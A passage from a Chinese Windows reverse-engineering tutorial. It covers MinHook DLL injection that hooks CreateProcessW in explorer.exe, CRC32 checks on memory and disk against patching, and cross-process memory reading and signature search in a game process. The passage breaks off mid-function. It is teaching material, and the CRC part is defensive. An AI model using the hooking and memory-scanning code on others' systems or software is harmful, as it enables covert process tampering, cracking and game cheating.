    UnHook();
    break;
  }
  return TRUE;
}
```

当读者将`hook.dll`注入到程序中后，我们再次点击设置标题按钮，此时标题将被修改为破解版本，如下图所示；



**实现监控进程创建** 

要实现监控进程创建，我们可以通过`MinHook`库来钩住`explorer.exe`程序，通过劫持程序内的`CreateProcessW`函数，在`Windows`操作系统中，大部分进程都是由 `explorer.exe` 进程派生出来的。explorer.exe 是`Windows`资源管理器的主进程，负责启动和管理用户界面、任务栏、桌面等。

当用户登录到系统后，explorer.exe 进程会自动启动，并成为用户交互的主要界面。在用户打开应用程序、文件夹或执行其他操作时，explorer.exe 进程会根据用户的请求创建新的进程来运行相应的应用程序或执行相应的任务。

通过对该进程进行挂钩，即可实现监控应用层其他进程创建或销毁的目的，读者可自行使用64位库编译下方代码，并注入到`explorer.exe`进程中，即可实现监控进程的创建功能。

```C
#include <Windows.h>
#include <MinHook.h>

#pragma comment(lib,"libMinHook-x64-v120-md.lib")

typedef int (WINAPI *OldCreateProcessW)(LPCWSTR, LPWSTR, LPSECURITY_ATTRIBUTES, LPSECURITY_ATTRIBUTES, BOOL,
  DWORD, LPVOID, LPCWSTR, LPSTARTUPINFOW, LPPROCESS_INFORMATION);

OldCreateProcessW fpCreateProcessW = NULL;

int WINAPI MyCreateProcessW(LPCWSTR lpApplicationName, LPWSTR lpCommandLine, LPSECURITY_ATTRIBUTES lpProcessAttributes,
  LPSECURITY_ATTRIBUTES lpThreadAttributes, BOOL bInheritHandles, DWORD dwCreationFlags, LPVOID lpEnvironment,
  LPCWSTR lpCurrentDirectory, LPSTARTUPINFOW lpStartupInfo, LPPROCESS_INFORMATION lpProcessInformation)
{
  MessageBoxW(0, lpApplicationName, 0, 0);

  int nRetn = fpCreateProcessW(lpApplicationName, lpCommandLine, lpProcessAttributes, lpThreadAttributes,
    bInheritHandles, dwCreationFlags, lpEnvironment, lpCurrentDirectory, lpStartupInfo, lpProcessInformation);
  return nRetn;
}

void SetHook()
{
  if (MH_Initialize() == MB_OK)
  {
    // 参数一: 函数名称
    // 参数二: 自定义函数
    // 参数三: 原始函数指针
    MH_CreateHook(&CreateProcessW, &MyCreateProcessW, reinterpret_cast<void**>(&fpCreateProcessW));
    MH_EnableHook(&CreateProcessW);
  }
}

void UnHook()
{
  if (MH_DisableHook(&CreateProcessW) == MB_OK)
  {
    MH_Uninitialize();
  }
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
  switch (ul_reason_for_call)
  {
  case DLL_PROCESS_ATTACH:
    SetHook();
    break;
  case DLL_PROCESS_DETACH:
    UnHook();
    break;
  }
  return TRUE;
}
```

读者可使用`x64`模式编译上方代码，并将其注入到`explorer.exe`文件中，至此当有新进程被加载时则会弹出该进程的详细路径信息，如下图所示；



## 第五篇：内存与磁盘CRC校验技术

CRC校验技术是用于检测数据传输或存储过程中是否出现了错误的一种方法，CRC校验算法可以通过计算应用于数据的循环冗余校验（CRC）检验值来检测任何数据损坏。通过运用本校验技术我们可以实现对特定内存区域以及磁盘文件进行完整性检测，并以此来判定特定程序内存是否发生了变化，如果发生变化则拒绝执行，通过此种方法来保护内存或磁盘文件不会被非法篡改。总之，内存和磁盘中的CRC校验技术都是用于确保数据和程序的完整性和安全性的重要技术。

以下是一些关于内存和磁盘中的CRC校验技术的详细信息：

 - 内存中的CRC校验技术
   - 在内存中使用`CRC校验`技术可用于防止缓冲区溢出攻击。内存中的`CRC校验`技术将根据程序的特定部分计算数据的`CRC值`并存储在内存中。当程序运行时，它会自动计算相同的部分的`CRC`值，以确保没有被篡改。如果发现`CRC值`不匹配，则此可能是攻击发生的异常，程序可以终止。

 - 磁盘中的CRC校验技术
   - 使用`CRC校验`技术可用于检测磁盘文件是否被篡改。磁盘文件的`CRC值`将在文件中的特定位置处存储。在运行程序之前，程序将读取此`CRC值`并使用相同的算法计算自己的`CRC值`以检查文件是否被篡改。如果发现两个`CRC值`不匹配，则应用程序可能已被篡改或病毒感染。

首先我们需要自行实现一个`CRC`算法，通常情况下`CRC算法`需要经历三个步骤，`生成`CRC表格，`读取`数据并计算CRC，`计算`最终的CRC值，这个实现原理可细化为如下三步；

 - 生成CRC表格
   - 首先，需要生成一个长度为`256`的`CRC`表格。该表格包含了用于生成`32`位`CRC`值所需的所有信息。CRC32表通常是固定的，可作为算法的参数，也可以根据所需的多项式动态生成。

 - 读取数据并计算CRC
   - 计算`CRC值`的过程是将指定块的数据视为位流，并将位流分成`32位`的块。这些块按顺序处理，每次使用`CRC表格`中的值对`32位`值进行`XOR`和位移操作。该操作迭代执行，以依次处理每个块。

 - 计算最终的CRC值
   - 处理所有块后，可以计算最终的`CRC`值。大多数实现都反转了这个值的位，以进行优化，并将计算出的值与`0xFFFFFFFF`（32位的所有位都是1）进行`XOR`运算以得到最终值。

根据上述描述读者应该可以理解`CRC32`的工作原理，如下代码是实现`CRC32`的核心算法。该算法生成一个`256`个元素的`CRC`表，在输入数据块上执行一系列按位运算。`CRC32`算法将输入的数据块视为位串，并产生一个唯一的`32位`输出，该输出可以用于验证数据的完整性和一致性等方面。

在该代码中，CRC表是动态生成的，采用了多项式`0xEDB88320L`。然后，该算法使用`crcTmp2`变量来存储中间`CRC`值，对每个字节进行一系列运算，以生成最终的`CRC32`值。返回值为计算出的`CRC32`值。
```c
// 定义一个指向字节缓冲区的指针ptr和字节缓冲区的大小Size，计算并返回CRC32值
DWORD CRC32(BYTE* ptr, DWORD Size)
{
  DWORD crcTable[256], crcTmp1;

  // 动态生成CRC-32表
  // 生成一个长度为256的CRC表格，共含有256个元素
  for (int i = 0; i<256; i++)
  {
    crcTmp1 = i;
    // 每个元素计算8个字节
    for (int j = 8; j>0; j--)
    {
      if (crcTmp1 & 1) crcTmp1 = (crcTmp1 >> 1) ^ 0xEDB88320L; // 判断是否需要异或 0xEDB88320L
      else crcTmp1 >>= 1;                                      // 如果不需要异或，则每次将该数右移一位
    }
    // 将得到的结果存放在CRC表格中
    crcTable[i] = crcTmp1;
  }
  
  // 计算CRC32值
  // 使用while循环来逐步处理字节块
  DWORD crcTmp2 = 0xFFFFFFFF;
  while (Size--)
  {
    // 将crcTmp2右移8位，并将最高8位数据清零
    crcTmp2 = ((crcTmp2 >> 8) & 0x00FFFFFF) ^ crcTable[(crcTmp2 ^ (*ptr)) & 0xFF];
    ptr++; // 处理下一个字节
  }
  // 将最终的crcTmp2值反转位顺序，并执行XOR运算，返回最终的CRC32值
  return (crcTmp2 ^ 0xFFFFFFFF);
}
```

上述代码则是`CRC32`生成的核心实现流程，读者在使用时只需要调用封装好的`CRC32()`函数并依次传入字符串及字符串长度，即可完成流程调用。但此处读者需要注意，CRC32不是加密算法，不能保证数据的安全性。其只能作为较小数据块的简单完整性检查和错误检测的一种手段。

```c
int main(int argc, char *argv[])
{
    char* ptr = "hello lyshark";
    DWORD size = sizeof("hello lyshark");

    printf("原始字符串: %s \n", ptr);

    DWORD ret = CRC32((BYTE *)ptr, size);
    printf("CRC32 = %x \n", ret);

    system("pause");
    return 0;
}
```

当调用上述代码时读者应该可以看到`hello lyshark`字符串的CRC32码，输出效果如下图所示；



上述代码片段仅用于验证内存字符串，如果读者需要验证磁盘文件的特征码则首先需要通过`CreateFile`打开文件得到文件句柄，接着通过`ReadFile`将整个文件读入到内存，最后再次调用`CRC32(pFile, dwSize)`实现验证文件的CRC数据，但此方法仅用于验证小文件，如果文件过大则可能会耗费大量的内存。
```c
int main(int argc, char* argv[])
{
    char *FileName = "d://lyshark.exe";

    // 验证文件是否存在
    if (GetFileAttributes(FileName) == 0xFFFFFFFF)
    {
        return 0;
    }

    // 打开文件
    HANDLE hFile = CreateFile(FileName, GENERIC_READ, FILE_SHARE_READ, 0, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, 0);

    // 得到文件长度
    DWORD dwSize = GetFileSize(hFile, NULL);

    // 开辟一段内存空间
    BYTE *pFile = (BYTE*)malloc(dwSize);

    // 将数据读入文件
    DWORD dwNum = 0;
    ReadFile(hFile, pFile, dwSize, &dwNum, 0);

    // 计算CRC32
    DWORD dwCrc32 = CRC32(pFile, dwSize);
    if (pFile != NULL)
    {
        printf("文件名 = %s \n", FileName);
        printf("文件长度 = %d \n", dwSize);
        printf("分配内存 = 0x%x \n", pFile);
        printf("CRC32 = 0x%x \n", dwCrc32);
        free(pFile);
        pFile = NULL;
    }

    system("pause");
    return 0;
}
```

上述代码运行后则可输出`d://lyshark.exe`文件的CRC32值，输出效果如下图所示；



### 5.1 内存CRC完整性检测

内存`CRC32`特征检测通常用于防止软件破解或打补丁，内存特征码检查实现原理是通过定位到`.text`节表的首地址及该节的长度，然后计算该节的`CRC32`值并存入全局变量，通过在程序内部打开一个子线程用于实时监测内存，一旦发现CRC32值发生了变化，则可执行终止程序运行等操作，以此来实现防止破解或打补丁的目的。

我们来看这样一段代码，程序通过`GetModuleHandle(NULL)`函数获取到自身程序的句柄，并通过PE结构定位到`.text`节，取出该节内的`VirtualAddress`虚拟地址，以及`VirtualSize`虚拟长度，最后调用`CRC32((BYTE*)(va_base), sec_len)`获取到该节的CRC数据。
```c
// 检查内存中CRC32特征值
DWORD CalculateMemoryCRC32()
{
    PIMAGE_DOS_HEADER pDosHeader = NULL;
    PIMAGE_NT_HEADERS pNtHeader = NULL;
    PIMAGE_SECTION_HEADER pSecHeader = NULL;
    DWORD ImageBase;

    // 获取基地址
    ImageBase = (DWORD)GetModuleHandle(NULL);

    // 定位到PE头结构
    pDosHeader = (PIMAGE_DOS_HEADER)ImageBase;
    pNtHeader = (PIMAGE_NT_HEADERS32)((DWORD)pDosHeader + pDosHeader->e_lfanew);

    // 定位第一个区块地址,因为默认的话第一个就是.text节
    pSecHeader = IMAGE_FIRST_SECTION(pNtHeader);
    DWORD va_base = ImageBase + pSecHeader->VirtualAddress;   // 定位代码节va基地址
    DWORD sec_len = pSecHeader->Misc.VirtualSize;             // 获取代码节长度
    printf("镜像基址(.text): %x | 镜像大小: %d \n", va_base, sec_len);

    DWORD CheckCRC32 = CRC32((BYTE*)(va_base), sec_len);
    printf(".text节CRC32 = %x \n", CheckCRC32);

    return CheckCRC32;
}
```
当主程序执行时，我们首先通过`CalculateMemoryCRC32`函数获取到当前代码段的校验码，并存储到`OriginalCRC32`全局变量内，在循环体内通过不断的计算CRC数据并与全局初始值做对比，以此来实现防止破解的作用。
```c
int main(int argc, char *argv[])
{
    // 用于保存初始化时 .text 节中的CRC32值
    DWORD OriginalCRC32 = 0;

    // 初始化时,给全局变量赋值,记录下初始的CRC32值
    OriginalCRC32 = CalculateMemoryCRC32();

    while (1)
    {
        // 每隔3秒计算一次
        Sleep(3000);

        // 计算新的CRC
        DWORD NewCRC32 = CalculateMemoryCRC32();
        if (OriginalCRC32 == NewCRC32)
        {
            printf("[+] 当前CRC [ %x ] 程序没有被打补丁 \n",NewCRC32);
        }
        else
        {
            printf("[-] 当前CRC [ %x ] 已被打补丁 \n", NewCRC32);
        }
    }

    system("pause");
    return 0;
}
```

编译并运行上述程序片段，当读者使用`x64dbg`修改内存中的字节时，此处将`int3`修改为`nop`则`CRC32`会提示我们内存已经被打补丁，输出效果如下图所示；



当然上述方法虽然可以对全局进行保护，但如果程序过大则此类验证效率将变得很低，我们需要通过使用打标签的方式对特定内存区域进行保护，如下代码中所示，我们通过`begin`设置开始保护标签，通过`end`设置结束保护标签，通过`size = end_addr - begin_addr;`计算即可获取到当前所需要保护的内存长度，最后通过`CalculateMemoryCRC32`实现计算内存CRC的目的，读者可以在当前进程内启动子线程用于实现专门的内存检测。
```c
// 检查内存中CRC32特征值
DWORD CalculateMemoryCRC32(DWORD va_base, DWORD sec_len)
{
    DWORD CheckCRC32 = CRC32((BYTE*)(va_base), sec_len);
    return CheckCRC32;
}

int main(int argc, char *argv[])
{
    // 用于保存初始化时 .text 节中的CRC32值
    DWORD OriginalCRC32 = 0;

    DWORD begin_addr, end_addr, size;
    
    // 获取到两个位置的偏移地址
    __asm mov begin_addr, offset begin;
    __asm mov end_addr, offset end;

    // 计算出 两者内存差值
    size = end_addr - begin_addr;

    // 校验指定内存位置
    OriginalCRC32 = CalculateMemoryCRC32(begin_addr, size);

    while (1)
    {
        // 标记为需要保护的区域
    begin:
        printf("hello lyshark \n");
        printf("hello lyshark \n");
        printf("hello lyshark \n");

        // 保护区域声明结束
    end:

        // 计算并对比
        if (OriginalCRC32 == CalculateMemoryCRC32(begin_addr, size))
        {
            printf("[+] 此区域没有被修改 \n");
        }
        else
        {
            printf("[-] 此区域已被修改\n");
        }

        Sleep(3000);
    }
    system("pause");
    return 0;
}
```

当保护区域内的参数发生变化时则会弹出数据被篡改，如下所示我们通过填充一个nop指令，观察下图，读者能够发现我们的检测生效了；



### 5.2 磁盘CRC完整性检测

磁盘CRC（循环冗余校验）用于检测磁盘数据的完整性，一般而言某些木马专杀工具同样会用到磁盘CRC特征校验技术，该技术的实现原理与内存验证原理完全一致，针对磁盘的验证同样很简单，但此处我们需要将计算到的`CRC32`值存储到PE文件自身中，通常我们可以存储到PE文件的前一个`DWORD`的位置上，程序运行后对比这个值，来判断程序是否被打过补丁，如果打过直接结束掉。

```c
// 检查磁盘完整性
BOOL CalculateDiskCRC32()
{
    char szFileName[MAX_PATH] = { 0 };

    char *pBuffer;
    DWORD pNumberOfBytesRead;
    int FileSize = 0;

    // 获取自身文件,并打开文件
    GetModuleFileName(0, szFileName, MAX_PATH);
    HANDLE hFile = CreateFile(szFileName, GENERIC_READ, 1, 0, 3, FILE_ATTRIBUTE_NORMAL, 0);
    if (hFile == INVALID_HANDLE_VALUE)
    {
        return TRUE;
    }

    // 取文件长度
    FileSize = GetFileSize(hFile, 0);
    pBuffer = new char[FileSize];

    // 读取文件到内存
    ReadFile(hFile, pBuffer, FileSize, &pNumberOfBytesRead, 0);
    CloseHandle(hFile);

    PIMAGE_DOS_HEADER pDosHeader = NULL;
    PIMAGE_NT_HEADERS32 pNtHeader = NULL;

    pDosHeader = (PIMAGE_DOS_HEADER)pBuffer;

    // 获取到NT头
    pNtHeader = (PIMAGE_NT_HEADERS32)((DWORD)pDosHeader + pDosHeader->e_lfanew);

    // 定位到PE文件头前4字节处
    DWORD OriginalCRC32 = *(DWORD *)((DWORD)pNtHeader - 4);
    printf("[*] 读出节表值 = %x \n", OriginalCRC32);

    // 我们只需要计算PE结构的CRC32值,不需要计算DOS头
    FileSize = FileSize - DWORD(pDosHeader->e_lfanew);
    DWORD CheckCRC32 = CRC32((BYTE*)(pBuffer + pDosHeader->e_lfanew), FileSize);
    printf("[+] 计算CRC32 = %x \n", CheckCRC32);

    if (CheckCRC32 == OriginalCRC32)
    {
        return FALSE;
    }
    else
    {
        return TRUE;
    }
    return TRUE;
}

int main(int argc, char* argv[])
{
    BOOL ref = CalculateDiskCRC32();
    if (ref == TRUE)
    {
        printf("[-] 程序已被修改 \n");
    }
    else
    {
        printf("[+] 程序正常 \n");
    }

    system("pause");
    return 0;
}
```

首先读者运行上述程序，则程序会输出当前的CRC32值`be63ac8b`我们记下这个HASH值，如下图所示；



并将此值替换到如下图中的黄色位置，当程序运行后会读取该区域内的数据，并与动态计算的CRC32值进行计算，最终判断是否被修改，如下图所示；



通过CRC32数据对比并遍历磁盘文件，我们可以实现一个简单的特征定位查杀程序，用于专门定位某些特殊的程序，如下是修改后的代码片段；
```c
// 计算文件CRC过程
BOOL CalcCRC32(char *FilePath)
{
    // 打开文件
    HANDLE hFile = CreateFile(FilePath, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile == INVALID_HANDLE_VALUE)
    {
        return FALSE;
    }

    // 获取文件大小
    DWORD dwSize = GetFileSize(hFile, NULL);
    if (dwSize == 0xFFFFFFFF)
    {
        return FALSE;
    }

    // 分配内存
    BYTE *pFile = (BYTE*)malloc(dwSize);
    if (pFile == NULL)
    {
        return FALSE;
    }

    // 读取内存
    DWORD dwNum = 0;
    ReadFile(hFile, pFile, dwSize, &dwNum, NULL);

    // 计算CRC32
    DWORD dwCRC32 = CRC32(pFile, dwSize);
    if (pFile != NULL)
    {
        free(pFile);
        pFile = NULL;
    }

    CloseHandle(hFile);
    return dwCRC32;
}

int main(int argc, char* argv[])
{
    WIN32_FIND_DATA stFindFile;
    HANDLE hFindFile;
    char *szFilter = "*.exe";      // 筛选所有的.exe结尾的文件
    char szFindFile[MAX_PATH];     // 保存欲检测程序的路径
    char szSearch[MAX_PATH];       // 保存完整的筛选路径
    int ret = 0;                   // 搜索状态返回值

    lstrcpy(szFindFile, "D:\\");   // 搜索D盘目录下的所有exe结尾的文件
    lstrcpy(szSearch, "D:\\");
    lstrcat(szSearch, szFilter);
    DWORD dwTmpCRC32;

    hFindFile = FindFirstFile(szSearch, &stFindFile);
    if (hFindFile != INVALID_HANDLE_VALUE)
    {
        do
        {
            lstrcat(szFindFile, stFindFile.cFileName);
            dwTmpCRC32 = CalcCRC32(szFindFile);

            // 比较判断
            if (dwTmpCRC32 == 0xbe63ac8b)
            {
                printf("[*] CRC32 = %x 发现病毒 %s \n", dwTmpCRC32, szFindFile);
            }
            else
            {
                printf("[-] CRC32 = %x 正常程序 %s \n", dwTmpCRC32, szFindFile);
            }
            // 删除程序名称只保留"C:\"
            szFindFile[3] = '\0';
            ret = FindNextFile(hFindFile, &stFindFile);
        } while (ret != 0);
    }

    FindClose(hFindFile);

    system("pause");
    return 0;
}
```

运行程序输出效果如下图所示；




## 第六篇：内存特征定位与补丁技术

通过运用定位算法并结合`内存补丁`技术，我们可实现对特定内存区域的动态定位，并在特定位置动态打补丁，本章将重点学习`Sunday`算法的实现细节，并通过该算是实现对内存特征码的检索与替换功能，通过学习本章的内容读者应该可以掌握在内存中灵活的定位区域并打补丁。

### 6.1 KMP算法搜索机器码

KMP算法是一种高效的字符串匹配算法，它的核心思想是利用已经匹配成功的子串前缀的信息，避免重复匹配，从而达到提高匹配效率的目的。KMP算法的核心是构建模式串的前缀数组Next，Next数组的意义是：当模式串中的某个字符与主串中的某个字符失配时，Next数组记录了模式串中应该回退到哪个位置，以便继续匹配。Next数组的计算方法是找出模式串每一个前缀中最长的相等前缀和后缀，并记录下来它们的长度，作为Next数组中的对应值。

在字符串匹配时，KMP算法从主串和模式串的开头开始逐个字符比较，若发现匹配失败，则根据Next数组中的值进行回退，从失配位置的下一位重新开始比较。这样回退的次数比暴力匹配方式要少得多，因此匹配效率得到了大幅提升。

#### 6.1.1 遍历输出进程内存

首先需要实现取进程PID的功能，当用户传入一个进程名称时则输出该进程的PID号，通过封装`GetPidByName`函数，该函数用于根据指定的进程名称，获取该进程的进程PID，以便于后续针对进程进行操作。函数参数`name`为指定的进程名称字符串。该函数通过调用`CreateToolhelp32Snapshot`函数创建一个系统快照，返回系统中所有进程的快照句柄。然后使用该快照句柄，通过进程快照函数`Process32First`和`Process32Next`函数逐个对比进程的名称，找到进程名称匹配的PID，返回该PID。若无法找到匹配的进程名称，则返回0。读者需要注意，当使用进程遍历功能时通常需要引入`<tlhelp32.h>`库作为支持；
```c
// 根据进程名得到进程PID
DWORD GetPidByName(const char* name)
{
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pe32 = { sizeof(PROCESSENTRY32) };
    DWORD pid = 0;

    if (Process32First(snapshot, &pe32))
    {
        do
        {
            if (_stricmp(pe32.szExeFile, name) == 0)
            {
                pid = pe32.th32ProcessID;
                break;
            }
        } while (Process32Next(snapshot, &pe32));
    }
    CloseHandle(snapshot);
    return pid;
}
```

在开始使用KMP枚举特征码之前我们需要实现简单的内存读写功能，通过封装一个`MemoryTraversal`函数，该函数接收三个参数分别是，进程PID，进程开始内存地址，以及进程结束内存地址，该函数输出当前进程内存机器码，每次读入`4096`字节，然后每16个字符换一次行，遍历内存`0x00401000 - 0x7FFFFFFF`这篇内存区域，这段代码实现如下所示；
```c
// 遍历并输出进程内存
VOID MemoryTraversal(DWORD PID, const DWORD beginAddr, const DWORD endAddr)
{
    const DWORD pageSize = 4096;

    // 打开并获取进程句柄
    HANDLE process = ::OpenProcess(PROCESS_ALL_ACCESS, false, PID);

    BOOL _break = FALSE;
    BYTE page[pageSize];
    DWORD tmpAddr = beginAddr;

    // 循环枚举进程
    while (tmpAddr <= endAddr)
    {
        // 每次读入内存
        ReadProcessMemory(process, (LPCVOID)tmpAddr, &page, pageSize, 0);

        // 依次循环每一个字节
        for (int x = 0; x < 4096; x++)
        {
            // 每16个字符换一行
            if (x % 15 != 0)
            {
                DWORD ch = page[x];

                if (ch >= 0 && ch <= 15)
                {
                    printf("0%x ", ch);
                }
                else
                {
                    printf("%x ", ch);
                }
            }
            else
            {
                printf(" | %x \n", tmpAddr+x);
            }
        }
        tmpAddr += pageSize;
    }
}

int main(int argc, char *argv[])
{
    // 通过进程名获取进程PID号
    DWORD Pid = GetPidByName("PlantsVsZombies.exe");
    printf("[*] 获取进程PID = %d \n", Pid);

    // 输出内存遍历0x401000-0x7FFFFFFF
    MemoryTraversal(Pid, 0x401000, 0x7FFFFFFF);

    system("pause");
    return 0;
}
```

读者可自行编译这段代码片段，并运行特定进程，当程序运行后即可输出`PlantsVsZombies.exe`进程内的机器码，并以16个字符为一个单位进行输出，其效果图如下所示；



#### 6.1.2 使用KMP搜索特征码

为了能让读者更好的理解KMP特征码搜索的实现原理，这里笔者依然在`MemoryTraversal`函数基础之上进行一定的改进在本次改进中，我们增加了`memcmp`函数，通过使用该函数我们可以很容易的实现对特定内存区域的相同比较，读者在调用`ScanMemorySignatureCode`函数时需要传入，开始地址，结束地址，特征码，以及特征码长度，当找到特定内存后则返回该内存的所在位置。
```c
// 内存特征码搜索
ULONG ScanMemorySignatureCode(DWORD Pid, DWORD beginAddr, DWORD endAddr, unsigned char *ShellCode, DWORD ShellCodeLen)
{
    unsigned char *read = new unsigned char[ShellCodeLen];

    // 打开进程
    HANDLE process = OpenProcess(PROCESS_ALL_ACCESS, false, Pid);

    // 开始搜索内存特征
    for (int x = 0; x < endAddr; x++)
    {
        DWORD addr = beginAddr + x;

        // 每次读入ShellCodeLen字节特征
        ReadProcessMemory(process, (LPVOID)addr, read, ShellCodeLen, 0);
        int a = memcmp(read, ShellCode, ShellCodeLen);

        if (a == 0)
        {
            printf("%x :", addr);
            for (int y = 0; y < ShellCodeLen; y++)
            {
                printf("%02x ", read[y]);
            }
            printf(" \n");
            return addr;
        }
    }
    return 0;
}

int main(int argc, char *argv[])
{
    // 通过进程名获取进程PID号
    DWORD Pid = GetPidByName("PlantsVsZombies.exe");
    printf("[*] 获取进程PID = %d \n", Pid);

    // 开始搜索特征码
    unsigned char ScanOpCode[3] = { 0x56, 0x57, 0x33 };

    // 依次传入开始地址，结束地址，特征码，以及特征码长度
    ULONG Address = ScanMemorySignatureCode(Pid, 0x401000, 0x7FFFFFFF, ScanOpCode, 3);

    printf("[*] 找到内存地址 = 0x%x \n", Address);

    system("pause");
    return 0;
}
```

上述程序运行后，将枚举当前进程`0x401000-0x7FFFFFFF`区域中特征码为`0x56, 0x57, 0x33`的内存地址，枚举到以后则输出该内存地址的位置，输出效果图如下图所示；



有了上面的模板我们只需要在此基础之上增加KMP枚举方法即可实现，如下代码则是替换具有KMP功能的搜索模式，在代码中可看出我们仅仅只是将`ScanMemorySignatureCode`函数内部的`memcmp`函数替换为了`KMPSearchString`函数，其他位置并没有任何变化，此处主要增加的函数有`GetNextval`以及`KMPSearchString`，这两个函数的核心思想是利用`KMP`算法，在主字符串中寻找子字符串时，遇到匹配失败的字符时，能够跳过一些已经比较过的字符，重复利用部分匹配的结果，提高字符串匹配的效率。将子串的每个字符失配时应该跳转的位置通过`GetNextval`函数计算得出，然后在`KMPSearchString`函数中通过这个数组进行跳转和匹配。该算法的时间复杂度为`O(m+n)`，其中`m`和`n`分别表示主串和模式串的长度。

```c
#include <iostream>
#include <windows.h>
#include <tlhelp32.h>

using namespace std;

// 根据进程名得到进程PID
DWORD GetPidByName(const char* name)
{
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pe32 = { sizeof(PROCESSENTRY32) };
    DWORD pid = 0;

    if (Process32First(snapshot, &pe32))
    {
        do
        {
            if (_stricmp(pe32.szExeFile, name) == 0)
            {
                pid = pe32.th32ProcessID;
                break;
            }
        } while (Process32Next(snapshot, &pe32));
    }
    CloseHandle(snapshot);
    return pid;
}

/*
* P 为模式串，下标从 0 开始。
* nextval 数组是模式串 SubString 中每个字符失配时应该回溯的位置。
*/
void GetNextval(string SubString, int nextval[])
{
    int SubStringLen = SubString.size(); // 计算模式串的长度
    int i = 0;                           // 子串的指针
    int j = -1;                          // 前缀的指针
    nextval[0] = -1;                     // 初始化 nextval 数组，将第一个值设为 -1

    while (i < SubStringLen - 1)
    {
        if (j == -1 || SubString[i] == SubString[j]) // 如果子串和前缀相等，或 j==-1
        {
            i++; j++;                                // 子串指针和前缀指针分别加一
            if (SubString[i] != SubString[j])        // 如果下一个字符不相等
            {
                nextval[i] = j;                      // 将前缀指针 j 的值赋给 nextval 数组中的当前位置 i
            }
            else                                     // 如果下一个字符相等
            {
                nextval[i] = nextval[j];             // 已经有 nextval[j]，所以将它赋给 nextval[i]
            }
        }
        else                                        // 如果子串和前缀不相等
        {
            j = nextval[j];                        // 更新前缀指针 j 的值，指向 nextval[j]
        }
    }
}

/* 在 MainString 中找到 SubString 第一次出现的位置 下标从0开始*/
int KMPSearchString(string MainString, string SubString, int next[])
{
    GetNextval(SubString, next);

    int MainStringIndex = 0;                 // 存储主字符串下标
    int SubStringIndex = 0;                  // 存储子字符串下标
    int MainStringLen = MainString.size();   // 主字符串大小
    int SubStringLen = SubString.size();     // 子字符串大小

    // 循环遍历字符串,因为末尾 '\0' 的存在，所以不会越界
    while (MainStringIndex < MainStringLen && SubStringIndex < SubStringLen)
    {
        // MainString 的第一个字符不匹配或 MainString[] == SubString[]
        if (SubStringIndex == -1 || MainString[MainStringIndex] == SubString[SubStringIndex])
        {
            MainStringIndex++; SubStringIndex++;
        }
        else   // 当字符串匹配失败则跳转
        {
            SubStringIndex = next[SubStringIndex];
        }
    }
    // 最后匹配成功直接返回位置
    if (SubStringIndex == SubStringLen)
    {
        return MainStringIndex - SubStringIndex;
    }
    return -1;
}

// 内存特征码搜索
ULONG ScanMemorySignatureCode(DWORD Pid, DWORD beginAddr, DWORD endAddr, char *ShellCode, DWORD ShellCodeLen)
{
    char *read = new char[ShellCodeLen];

    // 打开进程
    HANDLE process = OpenProcess(PROCESS_ALL_ACCESS, false, Pid);
    int next[100] = { 0 };

    // 开始搜索内存特征
    for (int x = 0; x < endAddr; x++)
    {
        DWORD addr = beginAddr + x;

        // 每次读入ShellCodeLen字节特征
        ReadProcessMemory(process, (LPVOID)addr, read, ShellCodeLen, 0);

        // 在Str字符串中找Search子串,找到后返回位置
        int ret = KMPSearchString(read, ShellCode, next);

        if (ret != -1)
        {
            return addr;
        }
    }
    return 0;
}

int main(int argc, char *argv[])
{
    // 通过进程名获取进程PID号
    DWORD Pid = GetPidByName("PlantsVsZombies.exe");
    printf("[*] 获取进程PID = %d \n", Pid);

    // 开始搜索特征码
    char ScanOpCode[3] = { 0x56, 0x57, 0x33 };

    // 依次传入开始地址，结束地址，特征码，以及特征码长度
    ULONG Address = ScanMemorySignatureCode(Pid, 0x401000, 0x7FFFFFFF, ScanOpCode, 3);

    printf("[*] 找到内存地址 = 0x%x \n", Address);

    system("pause");
    return 0;
}
```

编译并运行上述代码片段，读者应该能看出与暴力枚举并无任何区别，其输出效果图如下图所示；



### 6.2 Sunday搜索内存特征

Sunday 算法是一种字符串搜索算法，由`Daniel M.Sunday`于1990年开发，该算法用于在较长的字符串中查找子字符串的位置。算法通过将要搜索的模式的字符与要搜索的字符串的字符进行比较，从模式的最左侧位置开始。如果发现不匹配，则算法将模式向右`滑动`一定数量的位置。这个数字是由当前文本中当前模式位置的最右侧字符确定的。相比于暴力方法，该算法被认为更加高效。

#### 6.2.1 字符串与特征码转换

GetSignatureCodeArray函数，该函数用于将给定的十六进制串表示的字节码特征码转换为十进制数，存储在一个整型数组中，以便后续进行搜索。同时，特征码中的未知标记符号`?`会被用`256` 替代，方便后续搜索对特征码的匹配。

其中，参数`SignatureCode`为一串十六进制字符串，描述要搜索的字节码特征码，参数`BytesetSequence`为一个整型数组，用于存储将十六进制数转为十进制后的结果。该函数首先计算给定的十六进制串中包含的字节码个数，因为每个字节对应两个十六进制字符，再加上每两个字符间的空格，故需要将十六进制字符串长度除以三，再加上一。

接下来，函数逐个字符读入特征码串中的每一个十六进制数，如果是有效的十六进制数，则转化为十进制数存入`BytesetSequence`数组中。如果遇到未知的标记符号`?`，则在`BytesetSequence`数组中用`256`表示该位置的值。最后，返回特征码数组中字节码的个数。

```c
// 定义全局变量
#define BLOCKMAXSIZE 409600  // 每次读取内存的最大大小
BYTE* MemoryData;            // 每次将读取的内存读入这里
SHORT Next[260];             // 搜索下一个内存区域

// 将传入的SignatureCode特征码字符串转换为BytesetSequence特征码字节集
WORD GetSignatureCodeArray(char* SignatureCode, WORD* BytesetSequence)
{
    int len = 0;

    // 用于存储特征码数组长度
    WORD SignatureCodeLength = strlen(SignatureCode) / 3 + 1;

    // 将十六进制特征码转为十进制
    // 依次遍历SignatureCode中的每一个十六进制数
    for (int i = 0; i < strlen(SignatureCode);)
    {
        char num[2];

        // 分别取出第一个和第二个十六进制字符
        num[0] = SignatureCode[i++];
        num[1] = SignatureCode[i++];
        i++;

        // 如果两个字符都是有效的十六进制数，则将它们转换成十进制并存储到 BytesetSequence 中
        if (num[0] != '?' && num[1] != '?')
        {
            int sum = 0;
            WORD a[2];

